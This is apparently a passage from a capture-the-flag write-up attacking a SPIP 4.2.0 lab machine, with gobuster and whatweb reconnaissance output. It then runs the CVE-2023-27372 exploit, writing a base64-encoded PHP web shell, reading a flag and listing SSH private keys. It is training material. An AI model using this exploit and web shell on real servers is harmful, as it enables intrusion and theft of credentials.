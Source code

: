   ```
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  
  gobuster dir -u http://10.10.167.239/spip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /local                (Status: 301) [Size: 319] [--> http://10.10.167.239/spip/local/]
  /vendor               (Status: 301) [Size: 320] [--> http://10.10.167.239/spip/vendor/]
  /config               (Status: 301) [Size: 320] [--> http://10.10.167.239/spip/config/]
  /LICENSE              (Status: 200) [Size: 35147]
  /tmp                  (Status: 301) [Size: 317] [--> http://10.10.167.239/spip/tmp/]
  /IMG                  (Status: 301) [Size: 317] [--> http://10.10.167.239/spip/IMG/]
  /ecrire               (Status: 301) [Size: 320] [--> http://10.10.167.239/spip/ecrire/]
  /prive                (Status: 301) [Size: 319] [--> http://10.10.167.239/spip/prive/]
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- With `whatweb` we can see that app is using SPIP as CMS.

  ```
  whatweb http://10.10.167.239/spip/
  http://10.10.167.239/spip/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.167.239], MetaGenerator[SPIP 4.2.0], SPIP[4.2.0][http://10.10.167.239/spip/local/config.txt], Script[text/javascript], Title[Publisher], UncommonHeaders[composed-by,link,x-spip-cache]
  ```

---

## 🌐 Web Exploitation

- So I read the first flag with uploading PHP shell to the app since it is vulnerable to LFI, but when it came to SSH key I had to switch to Metasploit.

- Use [this exploit](https://github.com/nuts7/CVE-2023-27372)

  ```
  ./CVE-2023-27372.py -u http://10.10.167.239/spip/ -c 'echo PD89YCRfR0VUWzBdYD8+Cg==|base64 -d>shell.php' -v
  [+] Anti-CSRF token found : AKXEs4U6r36PZ5LnRZXtHvxQ/ZZYCXnJB2crlmVwgtlVVXwXn/MCLPMydXPZCL/WsMlnvbq2xARLr6toNbdfE/YV7egygXhx
  [+] Execute this payload : s:69:"<?php system('echo PD89YCRfR0VUWzBdYD8+Cg==|base64 -d>shell.php'); ?>";
  
  
  http://10.10.167.239/spip/shell.php?0=id -> uid=33(www-data) gid=33(www-data) groups=33(www-data) 
  
  
  http://10.10.167.239/spip/shell.php?0=cat%20/home/think/user.txt -> fa229046d44eda6a3598c73ad96f4ca5 
  
  http://10.10.167.239/spip/shell.php?0=ls%20/home/think/.ssh -> authorized_keys id_rsa id_rsa.pub 
  ```

---